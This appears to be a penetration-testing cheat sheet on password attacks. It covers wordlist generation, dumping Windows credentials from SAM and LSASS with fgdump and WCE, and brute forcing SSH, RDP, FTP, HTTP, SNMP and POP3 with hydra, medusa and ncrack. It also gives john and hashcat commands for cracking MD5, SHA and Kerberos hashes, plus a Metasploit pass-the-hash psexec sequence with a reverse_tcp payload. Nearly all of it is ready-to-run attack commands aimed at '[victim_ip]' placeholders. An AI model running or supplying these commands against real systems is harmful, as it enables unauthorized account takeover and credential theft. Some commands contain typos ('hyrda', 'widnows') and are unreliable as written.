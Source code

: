 - [Password generator](#Password-generator)
- [Windows](#Windows)
- [Password cracking](#Password-cracking)
- [Password hash cracking](#Password-hash-cracking)
- [Pass the hash](#Pass-the-hash)
- [SSH key cracking](#SSH-key-cracking)
- [tools](#tools)
 
# Password generator

Crunch: 
  - is a wordlist generator where you can specify a standard character set or a character set you specify.

- crunch 6 6 1234567890ABCDE -o <file.txt>
  - ***6*** min length
  - ***6*** max length
  - ***1234567890ABCDE*** charset
  - ***o*** seve result in file
 
- crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha
  - ***f*** dictionary path
  
- special chars
  - @ lower case alpha char
  - , upper case alpha char
  - % numeric charset
  - ^ special char include space
  
Cewl:
- cewl <victim_www_url> -d [num] -m [num] -w [file.txt]
------------------------------------------------------------------------------------------------------------------------
# Windows  

- pwdump fgdump
MS Windows store hased user password in the ***Security account manager (SAM)***
pwdump and fgdump inject a DLL containning the hash dumping code into the ***Local Security Authority Subsystem (LSASS)***

***- c:\> fgdump.exe ***
***- c:\> type 127.0.0.1.pwdump ***

- WCE
- WCE can steal NTLM credentails from memory and dump clear text password
***- c:\> WCE -w ***
------------------------------------------------------------------------------------------------------------------------
# Password cracking

- HTTP
```
medusa -h [url] -u [user_name] -p [password_file.txt] -M http
- hydra [target_url] -l [user_name] -P [password_file] https-post-form 
/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```
- RDP
```
ncrack -vv --user [user_name] -P [password_file.txt] rdp://[victim_ip]
```
- SNMP 
``` 
hydra -P [password-file.txt] -v [victim_ip] snmp
```
- SSH 
```
hydra -l [user_name] -P [password_file.txt] [victim_ip] ssh
```
- FTP 
```
hyrda -L [user_file] -p [password] [victim_ip] ftp
```
- POP3 
```
hyrda -L [user_file] -P [password_file.txt] [victim_ip] -s [victim_port] -t 50 -I pop3

Usefull flag
- -vV : verbose mode
- -e nsr : login as password or login as password in reversed order etc
- -t : threads
```
------------------------------------------------------------------------------------------------------------------------
# Password hash cracking

- Hash identifier
```
usage: 

hash-identifier
```
- MD5
```
john --format=raw-md5 --wordlist=rockyou.txt [hash.file]
```
- SHA1
```
john --format=raw-sha1 --wordlist=rockyou.txt [hash.file]
```
- SHA256
```
john --format=raw-sha256 --wordlist=rockyou.txt [hash.file]
```
- SHA512
```
john --format=raw-sha512 --wordlist=rockyou.txt [hash.file]
```
- krb5tgs 
```
hashcat -m 13100 --force -a 0 hashes.file passwords.txt 

john --format=krb5tgs --wordlist=passwords.txt hashes.file
```
- AS REP
```
john --wordlist=passwords_kerb.txt hashes.file

hashcat -m 18200 --force -a 0 hashes.file passwords.txt
```
------------------------------------------------------------------------------------------------------------------------
# Pass the hash

- Dump the contents of local SAM file, which contains the hashed(NTLM) passwords for every local account on the machine
```
meterpreter> hashdump
```

- psexec via msfconsole
```
msf> search psexec

msf> use exploit/windows/smb/psexec

msf> set payload widnows/meterpreter/reverse_tcp
msf> set LHOST <your_ip>
msf> set LPORT <your_port>
msf> set RHOST <target_ip>
msf> set SMBPass e.g (e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c)
msf> exploit
```

------------------------------------------------------------------------------------------------------------------------

# SSH key cracking

- Cracking_encrypted_private_key

- ssh2john
```
ssh2john.py encrypted_private_key > private_key.john
```
- john
```
john private_key.john --wordlist=/usr/share/wordlists/rockyou.txt
```
------------------------------------------------------------------------------------------------------------------------
# tools
- https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py
